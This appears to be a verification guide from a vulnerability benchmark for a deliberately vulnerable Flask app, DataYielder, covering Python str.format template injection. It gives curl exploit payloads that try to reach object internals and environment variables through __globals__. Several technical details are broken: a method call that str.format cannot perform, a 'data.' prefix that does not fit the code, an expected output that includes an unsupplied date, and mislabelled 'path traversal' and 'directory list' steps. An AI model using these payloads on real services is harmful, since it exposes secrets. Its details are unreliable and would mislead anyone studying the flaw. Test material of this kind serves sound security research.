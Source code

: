 
# Verification Guide: DataYielder Vulnerability

## CWE-154: Improper Neutralization of Variable Name Delimiters

**CWE ID:** CWE-154

**Location:**  
- `generate_report()` function, lines 8-18 in `src/app.py`
- The template string from user input is used directly in `template.format(**data)`, allowing injection of arbitrary field names and variable expansion.

---

### Steps to Trigger the Vulnerability

#### 1. Install Requirements
```bash
cd projects/DataYielder
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

#### 2. Start the Flask App

```bash
cd src
python app.py
```

Flask will listen at `http://127.0.0.1:5007`.

#### 3. Trigger with Benign Input

```bash
curl -s -X POST http://localhost:5007/report \
  -H "Content-Type: application/json" \
  -d '{"template": "Name: {name}, Date: {date}", "data": {"name":"Alice"}}'
```

**Expected output:**
```json
{"result": "Name: Alice, Date: 2024-06-19"}
```

#### 4. Exploit: Disclose Arbitrary Attributes

The bug allows injecting any valid Python field into the format string. For example, access to built-in variables:

```bash
curl -s -X POST http://localhost:5007/report \
  -H "Content-Type: application/json" \
  -d '{"template": "Directory list: {data.__class__.__mro__[1].__subclasses__()}", "data": {"x":1}}'
```

Look for a result including a long list of class representations, such as:
```
{"result":"Directory list: [<class 'object'>, <class 'type'>, ..."}
```

#### 5. Proof with Path Traversal (inspect file content)

You can leak environment variables or open files if format string supports it. Example with environment access:

```bash
curl -s -X POST http://localhost:5007/report \
  -H "Content-Type: application/json" \
  -d '{"template": "Env: {data.__init__.__globals__[os][environ]}", "data": {"x":1}}'
```

If Python `os` module is available, this can expose environment variables. This proves the downstream receives and interprets special delimiters from user-controlled templates.

---

**Summary:**  
The vulnerability exists because variable delimiters (e.g., `{data.__class__.__mro__[1].__subclasses__()}`) are not sanitized from input before usage with `str.format()`, leading to arbitrary attribute access and potential information disclosure.
